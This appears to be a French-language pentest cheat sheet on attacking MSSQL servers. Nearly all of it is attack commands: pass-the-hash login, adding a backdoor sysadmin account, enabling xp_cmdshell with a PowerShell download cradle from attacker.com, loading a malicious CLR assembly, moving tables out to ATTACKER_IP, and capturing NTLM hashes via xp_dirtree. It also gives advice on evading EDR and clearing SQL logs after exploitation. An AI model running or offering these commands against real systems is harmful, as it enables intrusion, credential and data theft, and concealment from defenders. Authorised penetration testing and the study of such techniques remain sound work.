

Cette documentation détaille les techniques d'exploitation de serveurs **MSSQL** via **T-SQL**, en s'appuyant sur l'écosystème **Impacket** et les fonctionnalités natives du moteur de base de données.



## Connexion au serveur MSSQL

La connexion s'effectue principalement via **mssqlclient.py** de la suite **Impacket**.

### Connexion standard
```bash
mssqlclient.py -p 1433 <USER>@<IP_CIBLE>
```

### Connexion avec Pass-the-Hash
L'utilisation de **NTLMv2** permet de s'authentifier sans connaître le mot de passe en clair.
```bash
mssqlclient.py -p 1433 -hashes :<NTLM_HASH> <USER>@<IP_CIBLE>
```

## Énumération système

L'énumération permet d'identifier la version, les bases de données et les privilèges associés au contexte de sécurité actuel.

### Requêtes d'information
```sql
SELECT @@VERSION;
SELECT name FROM master.dbo.sysdatabases;
USE users_db;
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
SELECT name FROM master.sys.sql_logins;
```

### Vérification des privilèges
```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Gestion des utilisateurs et privilèges

La manipulation des comptes SQL nécessite des droits élevés.

> [!warning] Danger
> La modification de mots de passe (**ALTER LOGIN**) peut entraîner un déni de service pour les applications légitimes.

```sql
CREATE LOGIN hacker WITH PASSWORD = 'P@ssw0rd';
CREATE LOGIN [DOMAIN\hacker] FROM WINDOWS;
ALTER SERVER ROLE sysadmin ADD MEMBER hacker;
ALTER LOGIN sa WITH PASSWORD = 'NewP@ssw0rd';
DROP LOGIN hacker;
```

## Manipulation de données

```sql
SELECT * FROM users;
SELECT username, password FROM users WHERE is_admin=1;
UPDATE users SET password='NewP@ssw0rd' WHERE username='admin';
DELETE FROM users WHERE username='victim';
```

## Exécution de commandes (xp_cmdshell)

> [!danger] Attention
> L'activation de **xp_cmdshell** est hautement bruyante et souvent détectée par les EDR.

### Activation de la fonctionnalité
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Exécution de commandes
```sql
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(''http://attacker.com/shell.ps1'')"';
```

## Utilisation de CLR Assemblies pour l'exécution de code

L'utilisation de **CLR (Common Language Runtime)** permet d'exécuter du code .NET directement dans le processus SQL Server, contournant souvent les restrictions appliquées à **xp_cmdshell**.

1. Activer le CLR sur le serveur :
```sql
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE;
```

2. Charger une DLL malveillante (encodée en hexadécimal) :
```sql
CREATE ASSEMBLY [Exploit] FROM 0x4D5A90... WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[RunCommand] @cmd NVARCHAR(MAX) AS EXTERNAL NAME [Exploit].[StoredProcedures].[RunCommand];
EXEC [dbo].[RunCommand] 'whoami';
```

## Détection et contournement des protections (EDR/AV)

Pour éviter la détection lors de l'exécution de commandes, privilégiez les techniques "in-memory" ou l'utilisation de procédures stockées natives moins surveillées.

- **Obfuscation** : Utiliser des encodages (Base64) dans les appels PowerShell via `xp_cmdshell`.
- **Living off the Land** : Utiliser `certutil` ou `bitsadmin` pour télécharger des payloads plutôt que des outils tiers.
- **Analyse de logs** : Surveiller les alertes générées par les requêtes `xp_cmdshell` dans les logs d'événements Windows (Event ID 4688).

## Techniques d'exfiltration de données massives

Pour exfiltrer de gros volumes de données sans déclencher d'alertes sur le trafic réseau sortant :

- **DNS Exfiltration** : Utiliser des requêtes DNS pour envoyer des données par petits blocs.
- **SMB/UNC Path** : Copier les résultats vers un partage réseau accessible :
```sql
INSERT INTO OPENROWSET('SQLNCLI', 'Server=ATTACKER_IP;Trusted_Connection=yes;', 'SELECT * FROM sensitive_table') ...
-- Ou via xp_cmdshell vers un partage
EXEC xp_cmdshell 'bcp "SELECT * FROM users" queryout "\\ATTACKER_IP\share\data.csv" -c -T';
```

## Gestion des bases de données

```sql
CREATE DATABASE pentest_db;
DROP DATABASE pentest_db;
BACKUP DATABASE users_db TO DISK = 'C:\backup.bak';
RESTORE DATABASE users_db FROM DISK = 'C:\backup.bak';
```

## Dumping de hashes

> [!warning] Condition critique
> Le dumping de hash via **xp_dirtree** nécessite que le service **MSSQL** ait accès au partage SMB de l'attaquant.

### Capture de NTLMv2
```sql
EXEC master..xp_dirtree '\\ATTACKER_IP\share';
```

### Écoute côté attaquant
```bash
sudo responder -I eth0
```

## Escalade de privilèges (Impersonation)

> [!warning] Prérequis
> L'impersonation nécessite des permissions spécifiques sur le serveur cible.

### Identification des cibles d'impersonation
```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
```

### Exécution sous un autre contexte
```sql
EXECUTE AS LOGIN = 'sa';
REVERT;
```

## Mouvement latéral (Linked Servers)

### Énumération des serveurs liés
```sql
SELECT srvname, isremote FROM sysservers;
```

### Exécution distante
```sql
EXECUTE ('SELECT @@VERSION') AT [10.0.0.12\SQLEXPRESS];
```

## Nettoyage des traces (logs SQL)

Après exploitation, il est crucial de supprimer les traces de vos activités dans les logs SQL Server :

```sql
-- Effacer les logs d'erreurs SQL
EXEC sp_cycle_errorlog;

-- Supprimer les procédures stockées créées
DROP PROCEDURE [dbo].[RunCommand];
DROP ASSEMBLY [Exploit];
```

## Récapitulatif technique

| Action | Commande |
| :--- | :--- |
| Afficher la version MSSQL | `SELECT @@VERSION;` |
| Lister les bases de données | `SELECT name FROM master.dbo.sysdatabases;` |
| Lister les tables d’une base | `SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;` |
| Lister les utilisateurs | `SELECT name FROM master.sys.sql_logins;` |
| Créer un utilisateur | `CREATE LOGIN hacker WITH PASSWORD = 'P@ssw0rd';` |
| Donner les droits sysadmin | `ALTER SERVER ROLE sysadmin ADD MEMBER hacker;` |
| Modifier un mot de passe | `ALTER LOGIN sa WITH PASSWORD = 'NewP@ssw0rd';` |
| Exécuter une commande Windows | `EXEC xp_cmdshell 'whoami';` |
| Créer une base | `CREATE DATABASE pentest_db;` |
| Sauvegarder une base | `BACKUP DATABASE users_db TO DISK = 'C:\backup.bak';` |
| Activer xp_cmdshell | `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;` |
| Capturer des NTLM Hashes | `EXEC master..xp_dirtree '\\ATTACKER_IP\share';` |

## Liens associés
- **SQL Injection**
- **Windows**
- **Kerberos**
- **Impacket Suite**